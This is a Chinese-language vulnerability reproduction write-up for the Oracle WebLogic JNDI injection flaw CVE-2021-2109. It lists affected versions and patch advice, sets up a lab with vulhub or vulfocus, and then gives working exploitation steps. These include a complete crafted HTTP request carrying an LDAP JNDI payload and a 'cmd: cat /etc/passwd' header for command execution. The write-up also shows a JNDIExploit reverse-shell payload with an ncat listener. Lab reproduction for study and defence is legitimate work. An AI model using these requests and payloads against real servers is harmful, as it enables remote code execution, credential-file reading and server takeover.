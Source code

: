 # 💔 Weblogic LDAP 远程代码执行

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Weblogic LDAP 远程代码执行	|[Weblogic](https://www.oracle.com/cn/java/weblogic/)	|远程代码执行	|CVE-2021-2109	|

|漏洞简介	|
|--	|
|Oracle官方发布了漏洞补丁，修了包括 CVE-2021-2109 Weblogic Server远程代码执行漏洞在内的多个高危严重漏洞。CVE-2021-2109 中，攻击者可构造恶意请求，造成JNDI注入，执行任意代码，从而控制服务器。<br><br><p>影响版本：</p>WebLogic 10.3.6.0.0<br>WebLogic 12.1.3.0.0<br>WebLogic 12.2.1.3.0<br>WebLogic 12.2.1.4.0<br>WebLogic 14.1.1.0.0	|

|参考链接	|
|--	|
|<ol><li><a href="http://wiki.peiqi.tech/wiki/webserver/Weblogic/Weblogic%20LDAP%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-2109.html">http://wiki.peiqi.tech/wiki/webserver/Weblogic/Weblogic%20LDAP%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-2109.html</a></li><li><a href="https://cloud.tencent.com/developer/article/1797518">https://cloud.tencent.com/developer/article/1797518</a></li></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>升级Weblogic Server运行环境的JDK版本</li><li>升级官方安全补丁：<a href="https://www.oracle.com/security-alerts/cpujan2021.html">https://www.oracle.com/security-alerts/cpujan2021.html</a></li></ol>	|

### 漏洞环境

#### 方案一
使用[vulhub](https://github.com/vulhub/vulhub)搭建漏洞环境<b>（14882的环境同样适用于CVE-2021-2109）</b>

```
git clone https://github.com/vulhub/vulhub
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问7001端口，可以看到以下页面<b>（还需要等待一会，因为weblogic需要加载console控制台）</b>

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/01.png" alt=""><figcaption></figcaption></figure>


#### 方案二
使用[vulfocus](https://github.com/fofapro/vulfocus)搭建漏洞环境

```
docker pull vulfocus/weblogic-cve_2021_2109
docker run -itd -p 7001:7001 vulfocus/weblogic-cve_2021_2109
```

访问控制台页面，进行登录
* 账号：weblogic
* 密码：welcome1
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/11.png" alt=""><figcaption></figcaption></figure>


### 漏洞复现

```
python3 vulcat.py -u <URL> -a weblogic -v cve-2021-2109
```

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/02.png" alt=""><figcaption></figcaption></figure>

在DNSLOG平台可以看到相应记录
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/03.png" alt=""><figcaption></figcaption></figure>

如果想进一步利用漏洞，需要下载辅助工具：https://github.com/WhiteHSBG/JNDIExploit/
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/04.png" alt=""><figcaption></figcaption></figure>

运行JNDIExploit（需要提前安装java环境）
* 使用-i选项指定本地IP
* 默认监听1389和3456端口
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <IP>
```

运行JNDIExploit之后
* 复制漏洞信息中的Request数据包
* 放入Burp，修改LDAP的IP地址
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/05.png" alt=""><figcaption></figcaption></figure>

```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.80;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.80.132:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.80.132:7001
Origin: http://192.168.80.132:7001
```

```
ldap://192.168.80;1:1389/Basic/WeblogicEcho
```

此处需要注意，CVE-2021-2109有一个特性
* IP的最后一个.需要改为分号;
* 例如 192.168.1.1 --> 192.168.1<b>;</b>1
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/07.png" alt=""><figcaption></figcaption></figure>

在Burp发送数据包之后，回到命令行，可以看到返回了记录
* 说明LDAP成功
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/08.png" alt=""><figcaption></figcaption></figure>

```
GET /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.80;1:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.80.132:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.80.132:7001
Origin: http://192.168.80.132:7001
cmd: cat /etc/passwd
```

此时如果你想执行自定义命令，并获得回显
* 只需要在数据包中添加一个Headers
* cmd: 你的命令
* 如图
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/09.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/10.png" alt=""><figcaption></figcaption></figure>


* <b>vulfocus：</b>
由于vulfocus的镜像无法通过漏洞 绕过登录页面进后台
所以需要提前登录，并在扫描时添加Cookie

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/13.png" alt=""><figcaption></figcaption></figure>

#### 额外内容-反弹shell

[JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit/)还支持反弹shell的功能
* 在一台<b>Linux</b>机器上运行ncat，如图
* 必须是Linux机器，Windows运行ncat无法获取反弹回来的shell（工具介绍是这样说的，复现时经过实验也发现Windows不行）
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/14.png" alt=""><figcaption></figcaption></figure>

然后发送Payload
* 我的JNDIExploit.jar运行在192.168.80.1，端口1389
* ncat运行在192.168.80.132，端口12000

```
ldap://<你的JNDI>/Basic/ReverseShell/<IP>/<PORT>

# 示例：
ldap://192.168.80;1:1389/Basic/ReverseShell/192.168.80.132/12000
```

<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/15.png" alt=""><figcaption></figcaption></figure>

回到ncat终端，可以看到已经返回了shell
<figure><img src="../../../static/imgs/vulns-weblogic/cve-2021-2109/16.png" alt=""><figcaption></figcaption></figure>

